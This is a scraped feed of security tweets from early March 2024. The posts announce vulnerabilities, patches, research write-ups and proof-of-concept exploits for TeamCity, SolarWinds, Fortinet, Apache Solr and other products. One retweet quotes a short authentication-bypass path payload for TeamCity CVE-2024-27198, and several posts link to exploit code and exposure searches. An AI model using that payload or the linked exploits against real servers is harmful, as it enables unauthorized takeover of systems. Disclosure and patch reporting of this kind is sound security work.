RT @Horizon3Attack: Today we are disclosing a critical SSRF vulnerability, CVE-2023-49785, in a popular Gen AI chatbot, NextChat a.k.a Chat…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1767183629455589743 _at 2024-03-11, 13:39:44_**
<blockquote>
CVE-2024-21378 — Remote Code Execution in Microsoft Outlook https://t.co/usVxdegKJw
</blockquote>

* https://www.netspi.com/blog/technical/red-team-operations/microsoft-outlook-remote-code-execution-cve-2024-21378/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>187</code></td>
<td>Favorites: <code>458</code></td>
</tr></table>

---

# NetSPI
**https://twitter.com/NetSPI/status/1767175389569290359 _at 2024-03-11, 13:07:00_**
<blockquote>
[Blog] CVE-2024-21378 – Microsoft Outlook Remote Code Execution 

How we discovered &amp; were able to exploit this vulnerability: https://t.co/6R2THE2paW

Written by: Rich Wolferd, NetSPI’s Director of Red Team Operations &amp; Nick Landers @monoxgas https://t.co/LrAelKRs3R
</blockquote>

* https://ow.ly/L29F50QQ7s4

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>195</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1767113231242313756 _at 2024-03-11, 09:00:00_**
<blockquote>
CVE-2024-21899, -21900, -21901: Multiple vulns in QNAP NAS, 4.3 - 9.8 rating 🔥

Code injection, execution of arbitrary commands and  improper authentication via network.

Search at https://t.co/hv7QKSqxTR:
👉🏻 Link: https://t.co/k7mxtfhX3Y

#cybersecurity #vulnerability_map https://t.co/3x6sszcZ47
</blockquote>

* http://Netlas.io
* https://nt.ls/P3Cty

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1767075326356820322 _at 2024-03-11, 06:29:23_**
<blockquote>
⚠️ URGENT patch needed! Progress OpenEdge Authentication Gateway/AdminServer #vulnerability (CVE-2024-1403) allows authentication bypass.

Proof-of-concept exploit is available.

Learn more: https://t.co/CFmuQu8H5Q

Update to supported versions ASAP.

#hacking
</blockquote>

* https://thehackernews.com/2024/03/proof-of-concept-exploit-released-for.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1766909405868458111 _at 2024-03-10, 19:30:04_**
<blockquote>
Data leak from GPU local memory (LeftoverLocals vulnerability, CVE-2023-4969)
Tyler Sorensen and Heidy Khlaaf (@trailofbits)

https://t.co/HXtroQ2DvX

#cybersecurity #gpu https://t.co/xHZDjIobBk
</blockquote>

* https://blog.trailofbits.com/2024/01/16/leftoverlocals-listening-to-llm-responses-through-leaked-gpu-local-memory/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>186</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1766501753187447058 _at 2024-03-09, 16:30:12_**
<blockquote>
Great blog post on exploiting Chrome’s V8 JavaScript engine (CVE-2024-0517)
Credits Javier Jimenez and Vignesh Rao (@XI_Research)

https://t.co/NwRnwpMQfR

#infosec #chrome https://t.co/V2ZC1v0Gss
</blockquote>

* https://blog.exodusintel.com/2024/01/19/google-chrome-v8-cve-2024-0517-out-of-bounds-write-code-execution/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>250</code></td>
</tr></table>

---

# hd3s5
**https://twitter.com/hd3s5/status/1766320498072228313 _at 2024-03-09, 04:29:58_**
<blockquote>
#itw #0day #ALPC
The first #poc of CVE-2023-21674 in github.
The attackers break out of the sandbox in Chromium by using this vulnerability.
https://t.co/elBEAj7YTJ
</blockquote>

* https://github.com/hd3s5aa/CVE-2023-21674

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>145</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1766172187721892238 _at 2024-03-08, 18:40:38_**
<blockquote>
🔍 Curiosity led GreyNoise's own @h0wdeee on a mission to unravel the mysteries of CVE-2024-21762, a critical Fortinet FortiOS &amp; FortiProxy vulnerability. With no PoC in sight, we crafted our own detection. Join them on this gripping journey.  
https://t.co/jALN253nFs…
</blockquote>

* https://www.greynoise.io/blog/hunting-for-fortinets-cve-2024-21762

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1766134622654787679 _at 2024-03-08, 16:11:21_**
<blockquote>
1Panel Unauthorized access vulnerability
CVE-2024-27288

https://t.co/VmhvXBU2Pr
</blockquote>

* https://github.com/advisories/GHSA-26w3-q4j8-4xjp

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1766014347204231307 _at 2024-03-08, 08:13:25_**
<blockquote>
🚨 #Cisco issued patches for a high-severity flaw (CVE-2024-20337) in Secure Client software on Windows, #Linux, and macOS. Attackers could hijack VPN sessions.

Check and update now: https://t.co/lIcBk5pFTh

#hacking #cybersecurity #infosec
</blockquote>

* https://thehackernews.com/2024/03/cisco-issues-patch-for-high-severity.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>190</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1765785473895780688 _at 2024-03-07, 17:03:58_**
<blockquote>
CVE-2024-23917 Teamcity &lt; 2023.11.3 unauth RCE

yes, CVE-2024-23917 ,  
not  CVE-2024-27198 https://t.co/embVgw5RI3
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>203</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1765731342715695199 _at 2024-03-07, 13:28:52_**
<blockquote>
CVE-2023-36899 - CVE-2023-36560: Source Code Disclosure in https://t.co/dKq4ojYEin apps.

PoC
https://t.co/S6Vh6lSn0K https://t.co/nIunrAnQNq
</blockquote>

* http://ASP.NET
* https://swarm.ptsecurity.com/source-code-disclosure-in-asp-net-apps/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1765636858891936050 _at 2024-03-07, 07:13:25_**
<blockquote>
RT @W01fh4cker: Happy PWN!!!
RCE script: https://t.co/ETIagkeOxQ
#CVE-2024-27198 #redteam #jetbrains #teamcity https://t.co/zgD8ngccWo
</blockquote>

* https://github.com/W01fh4cker/CVE-2024-27198-RCE

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1765537192099618852 _at 2024-03-07, 00:37:23_**
<blockquote>
RT @DhiyaneshDK: Scan for JetBrains TeamCity Authentication Bypass Vulnerabilities using @pdnuclei 

CVE-2024-27198 (Critical) - https://t.…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1765495461249466676 _at 2024-03-06, 21:51:33_**
<blockquote>
RT @Horizon3Attack: The recent #Progress #OpenEdge auth bypass, CVE-2024-1403, allows an unauth user to obtain admin perms to control svcs.…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1765429313820561855 _at 2024-03-06, 17:28:43_**
<blockquote>
RT @Horizon3Attack: The recent #Progress #OpenEdge auth bypass, CVE-2024-1403, allows an unauth user to obtain admin perms to control svcs.…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1765424395516817910 _at 2024-03-06, 17:09:10_**
<blockquote>
In our latest guest blog, the Trend Micro Research team details CVE-2023-36049 - a .NET LPE bug originally found by ZDI's own @chudyPB. An attacker could write/delete arbitrary files in the context of the FTP server. Read all the details at https://t.co/eJxSjAVHR2
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/3/6/cve-2023-36049-microsoft-net-crlf-injection-arbitrary-file-writedeletion-vulnerability

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1765255083472867523 _at 2024-03-06, 05:56:23_**
<blockquote>
🚨 Heads up, Apple users!

Apple rolls out crucial updates for #iOS &amp; iPadOS to patch actively exploited vulnerabilities CVE-2024-23225 &amp; CVE-2024-23296, enhancing kernel memory protection.

Ensure your devices are updated: https://t.co/Jj3Ndx6efF

#cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2024/03/urgent-apple-issues-critical-updates.html

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>132</code></td>
<td>Favorites: <code>225</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1765195442835382433 _at 2024-03-06, 01:59:23_**
<blockquote>
#Kimsuky  CVE-2024-1709 + CVE-2024-1708
ConnectWise ScreenConnect Vulnerability Exploited to Deploy BABYSHARK Variant
https://t.co/okyQjwRTLN https://t.co/JIHTOAnn3p
</blockquote>

* https://www.kroll.com/en/insights/publications/cyber/screenconnect-vulnerability-exploited-to-deploy-babyshark

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1765083317026848868 _at 2024-03-05, 18:33:51_**
<blockquote>
RT @DhiyaneshDK: Scan for JetBrains TeamCity Authentication Bypass Vulnerabilities using @pdnuclei 

CVE-2024-27198 (Critical) - https://t.…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1765058599024312380 _at 2024-03-05, 16:55:37_**
<blockquote>
RT @stephenfewer: Our exploit module for CVE-2024-27198 is now in the @metasploit pull queue. Unauthenticated RCE in JetBrains TeamCity due…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1765058577234837807 _at 2024-03-05, 16:55:32_**
<blockquote>
RT @TheHackersNews: North Korean hackers exploit ConnectWise ScreenConnect vulnerabilities (CVE-2024-1708 &amp; CVE-2024-1709) to deploy TODDLE…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# stephenfewer
**https://twitter.com/stephenfewer/status/1765052628096971202 _at 2024-03-05, 16:31:54_**
<blockquote>
Our exploit module for CVE-2024-27198 is now in the @metasploit pull queue. Unauthenticated RCE in JetBrains TeamCity due to an authentication bypass vulnerability: https://t.co/2kANTPjfMi https://t.co/FG8FP7kWnI
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/18922

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1765049848007631057 _at 2024-03-05, 16:20:51_**
<blockquote>
North Korean hackers exploit ConnectWise ScreenConnect vulnerabilities (CVE-2024-1708 &amp; CVE-2024-1709) to deploy TODDLERSHARK malware, adding to the notorious Kimsuky arsenal alongside BabyShark and ReconShark.

Learn more: https://t.co/6dbXdY6Zfx
</blockquote>

* https://thehackernews.com/2024/03/hackers-exploit-connectwise.html

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>208</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1765011091040383045 _at 2024-03-05, 13:46:51_**
<blockquote>
RT @stephenfewer: We have disclosed 2 authentication bypass vulnerabilities, CVE-2024-27198 and CVE-2024-27199, affecting JetBrains TeamCit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1764954803589845054 _at 2024-03-05, 10:03:11_**
<blockquote>
RT @X1r0z: My detailed analysis report of SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692), with two methods to ac…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1764949897298530456 _at 2024-03-05, 09:43:41_**
<blockquote>
RT @X1r0z: My detailed analysis report of SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692), with two methods to ac…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1764923891690958863 _at 2024-03-05, 08:00:21_**
<blockquote>
CVE-2022-32250 (credits @nccgroupinfosec)

"UAF vulnerability affecting the netlink subsystem can be exploited twice to open up other more powerful use-after-free primitives"

https://t.co/NKTlRmplK6

#cybersecurity #Linux https://t.co/yClXooPzem
</blockquote>

* https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1764917598830104889 _at 2024-03-05, 07:35:20_**
<blockquote>
RT @X1r0z: My detailed analysis report of SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692), with two methods to ac…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1764899471195021371 _at 2024-03-05, 06:23:18_**
<blockquote>
RT @stephenfewer: We have disclosed 2 authentication bypass vulnerabilities, CVE-2024-27198 and CVE-2024-27199, affecting JetBrains TeamCit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1764867985343418506 _at 2024-03-05, 04:18:12_**
<blockquote>
RT @X1r0z: My detailed analysis report of SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692), with two methods to ac…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1764862860344033722 _at 2024-03-05, 03:57:50_**
<blockquote>
RT @X1r0z: My detailed analysis report of SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692), with two methods to ac…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1764858062102212729 _at 2024-03-05, 03:38:46_**
<blockquote>
RT @TheHackersNews: Critical TeamCity software flaws leave CI/CD servers open to complete takeover.

Read more about CVE-2024-27198, CVE-20…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1764857621247647862 _at 2024-03-05, 03:37:01_**
<blockquote>
Critical TeamCity software flaws leave CI/CD servers open to complete takeover.

Read more about CVE-2024-27198, CVE-2024-27199 and update your systems now → https://t.co/Sjt6bPiDE2

#cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2024/03/critical-jetbrains-teamcity-on-premises.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1764780754377015465 _at 2024-03-04, 22:31:34_**
<blockquote>
RT @h4x0r_dz: what an incredible auth bypass! 

/foo?jsp=/authenticated-endpoint;.jsp

CVE-2024-27198 TeamCity authentication bypass
https:…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>113</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1764765832792637945 _at 2024-03-04, 21:32:16_**
<blockquote>
RT @stephenfewer: We have disclosed 2 authentication bypass vulnerabilities, CVE-2024-27198 and CVE-2024-27199, affecting JetBrains TeamCit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# h1Disclosed
**https://twitter.com/h1Disclosed/status/1764742893296550106 _at 2024-03-04, 20:01:07_**
<blockquote>
⚡ CVE-2022-21371:  Oracle WebLogic Server Local File Inclusion 
👨🏻‍💻 deb0con ➟ Mars 
🟥 High
💰 None
🔗 https://t.co/boVBURmONU
#bugbounty #bugbountytips #cybersecurity #infosec https://t.co/HADmLKoVr4
</blockquote>

* https://hackerone.com/reports/2387600

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# catc0n
**https://twitter.com/catc0n/status/1764737202909577563 _at 2024-03-04, 19:38:31_**
<blockquote>
Rapid7 is disclosing two authentication bypass vulnerabilities @stephenfewer discovered in TeamCity (CVE-2024-27198, CVE-2024-27199). CVE-2024-27198 allows for unauthenticated remote code execution. https://t.co/94KHS7tjjN
</blockquote>

* https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1764278987444924869 _at 2024-03-03, 13:17:43_**
<blockquote>
Bluetooth vulnerabilities in Android, Linux, macOS, iOS and Windows can be exploited to pair an emulated bluetooth keyboard and inject keystrokes without user confirmation : https://t.co/lekyzS2abA  credits @marcnewlin 

Slides : https://t.co/RS6gZHxiIJ 

CVE's : 

CVE-2024-0230… https://t.co/ugUME8JMrf
</blockquote>

* https://github.com/skysafe/reblog/blob/main/cve-2024-0230/README.md
* https://github.com/marcnewlin/hi_my_name_is_keyboard/blob/main/slides/hi_my_name_is_keyboard.pdf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>477</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1764199068123709744 _at 2024-03-03, 08:00:09_**
<blockquote>
Safely detect whether a FortiGate SSL VPN is vulnerable to CVE-2024-21762 https://t.co/Pmoh8VWzCr #Pentesting #WebSecurity #Infosec https://t.co/lDSpckjJ3N
</blockquote>

* https://github.com/BishopFox/cve-2024-21762-check

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1764022964318527604 _at 2024-03-02, 20:20:23_**
<blockquote>
RT @piedpiper1616: GitHub - BishopFox/cve-2024-21762-check: Safely detect whether a FortiGate SSL VPN is vulnerable to CVE-2024-21762 - htt…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1763929767932227801 _at 2024-03-02, 14:10:03_**
<blockquote>
PoC Released for CVE-2023-42942 – a macOS Root Privilege Escalation Vulnerability : https://t.co/DWqPDzfxek
</blockquote>

* https://jhftss.github.io/CVE-2023-42942-xpcroleaccountd-Root-Privilege-Escalation/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1763891852682404210 _at 2024-03-02, 11:39:23_**
<blockquote>
Hikvision Patches Security Flaws (CVE-2024-25063 &amp; 25064): Update Your HikCentral Pro https://t.co/H9Vvx4V9z1
</blockquote>

* https://securityonline.info/hikvision-patches-security-flaws-cve-2024-25063-25064-update-your-hikcentral-pro/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1763777455809331653 _at 2024-03-02, 04:04:49_**
<blockquote>
GitHub - BishopFox/cve-2024-21762-check: Safely detect whether a FortiGate SSL VPN is vulnerable to CVE-2024-21762 - https://t.co/PXD8flXrtz
</blockquote>

* https://github.com/BishopFox/cve-2024-21762-check

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1763773971655188807 _at 2024-03-02, 03:50:58_**
<blockquote>
CVE-2024-0692: SolarWinds Security Event Manager Unauthenticated RCE Flaw https://t.co/ytGrysMAGv
</blockquote>

* https://securityonline.info/cve-2024-0692-solarwinds-security-event-manager-unauthenticated-rce-flaw/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1763632873867747490 _at 2024-03-01, 18:30:18_**
<blockquote>
Apache Solr Backup/Restore APIs RCE Poc (CVE-2023-50386) https://t.co/PR8KYjJxvR  #Pentesting #CyberSecurity #Infosec https://t.co/xkjCXbQKAD
</blockquote>

* https://github.com/vvmdx/Apache-Solr-RCE_CVE-2023-50386_POC

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1763521311920267632 _at 2024-03-01, 11:07:00_**
<blockquote>
CVE-2024-21762 Vulnerability Scanner for FortiGate Firewalls https://t.co/Am7Pm2e17X
</blockquote>

* https://bishopfox.com/blog/cve-2024-21762-vulnerability-scanner-for-fortigate-firewalls

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>101</code></td>
</tr></table>

---

# CVEnew
**https://twitter.com/CVEnew/status/1763494657974301161 _at 2024-03-01, 09:21:05_**
<blockquote>
CVE-2024-0692 The SolarWinds Security Event Manager was susceptible to Remote Code Execution Vulnerability. This vulnerability allows an unauthenticated user to abuse SolarWinds’ ser… https://t.co/EPktfpIHs5
</blockquote>

* https://www.cve.org/CVERecord?id=CVE-2024-0692

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1763451675459911823 _at 2024-03-01, 06:30:17_**
<blockquote>
GitHub - vvmdx/Apache-Solr-RCE_CVE-2023-50386_POC: Apache Solr Backup/Restore APIs RCE Poc (CVE-2023-50386) - https://t.co/FEuFMCEl2P
</blockquote>

* https://github.com/vvmdx/Apache-Solr-RCE_CVE-2023-50386_POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1763403867050721759 _at 2024-03-01, 03:20:19_**
<blockquote>
🚨Alert🚨CVE-2023-50386: Apache Solr Backup/Restore APIs RCE POC Released
⚠Backup/Restore APIs allow for deployment of executables in malicious ConfigSets.
📊 87.3k+ Services are found on https://t.co/WrjZaG0jRH
🔗Hunter Link: https://t.co/84D8rqNUgJ

👇👇👇Query
Hunter:… https://t.co/PaE7r2A3CZ
</blockquote>

* http://Hunter.how
* https://hunter.how/list?searchValue=product.name%3D%22Solr%22

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

